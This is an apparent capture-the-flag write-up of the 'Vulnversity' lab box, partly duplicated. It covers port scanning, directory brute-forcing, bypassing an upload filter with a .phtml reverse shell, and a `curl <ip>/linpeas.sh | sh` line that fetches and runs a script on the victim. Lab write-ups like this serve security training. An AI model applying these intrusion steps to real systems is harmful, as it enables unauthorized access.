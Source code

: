Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------



Task 1: Reconnaissance

# Nmap scan

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`





# Vulnversity
 _Author: minimcloving_

 _Date: 17 July 2021_

--------------------
--------------------
## nmap scan

###Open Port
* **21** - ftp - vsftpd 3.0.3
* **22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
* **139** - netbios-ssn Samba smbd 3.x - 4.x
* **445** - ' ' smbd 4.3.11-Ubuntu
* **3128** - http-proxy - Squid http proxy 3.5.12
* **3333** - http - Apache httpd 2.4.18

###OS Detection
* OS: Windows 6.1 (Samba 4.3.11-Ubuntu)


## GoBuster

```
http://<ip>:3333
wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
* /images
* /css
* /js
* /fonts
* /internal
* /server-status


## Notes

* /internal brings us to a form upload pages
    * .php is not allowed
    * No extention in original /usr/share/wordlists/wfuzz/general/extensions_common.txt are allowed
    * Fuzzing the upload form, we find that **.phtml** is allowed


## Walkthrough

* nmap scan
    * discovered webserver
* dirbuster to find dirs
    * discovered form upload
* fuzzed w/ burpsuite
    * discovered .phtml file extension allowed
    * uploaded php reverse shell with `.phtml` extension 
* get in with nc
    * Navigating around reverse shell, discover user named `bill`
    * his home directory contained the flag
* Transfer linpeas.sh to our exploited machine to run the script
    * On local machine, run this command:
        * `python -m SimpleHTTPServer 80`
    * On the victim machine, run this command:
        * `curl <local ip address*>/linpeas.sh | sh`
            * * If you are using openvpn, this will be the ip address that openvpn generates, not your actual machines local ip address. This is because the victim machine can only connect to the vpn address. Try it yourself: once you get into the machine, send a ping to both addresses (you may have to ctrl+c to escape the ping and redo your nc -lvnp connection)
* linpeas.sh shows under interesting files -> SUID:
    * /bin/systemctl


# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups

